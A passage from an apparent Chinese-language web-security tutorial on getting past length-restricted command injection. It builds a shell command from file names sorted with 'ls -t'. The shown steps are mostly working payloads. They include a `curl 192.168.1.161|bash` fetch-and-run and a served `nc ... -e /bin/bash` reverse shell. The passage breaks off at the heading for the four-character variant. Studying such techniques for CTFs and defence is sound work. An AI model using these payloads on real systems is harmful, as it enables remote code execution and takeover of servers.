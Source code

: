 ```
?cmd=ls -t>a
```

**步骤三：**将文件内容进行解析

```
?cmd=sh a
?cmd=. a
```

## 长度为5的绕过

**步骤一：**构造ls -t>y 超过5个字符

先创建文件ls\

再创建文件_,将ls\写入到\_文件中

```
#ls>_
#>\ \\
#-t\\
#>\>y
#ls>>_
```

若执行sh_则会执行 ls -t>y

**步骤二：**分解命令，创造文件

```
#>bash
#>\|\\
#>61\\
#>1\\
#>1.\\
#>68\\
#>2.\\
#>19\\
#>\ \\
#>rl\\
#>cu\\
```

192.168.1.161下创建index.html

```
nc 192.168.1.161 7777 -e /bin/bash
```

**步骤三：**执行脚本sh

先执行sh _相当于执行ls -t>y

在执行sh y相当于执行y文件中的内容:curl 192.168.1.161|bash

## 长度为4的绕过
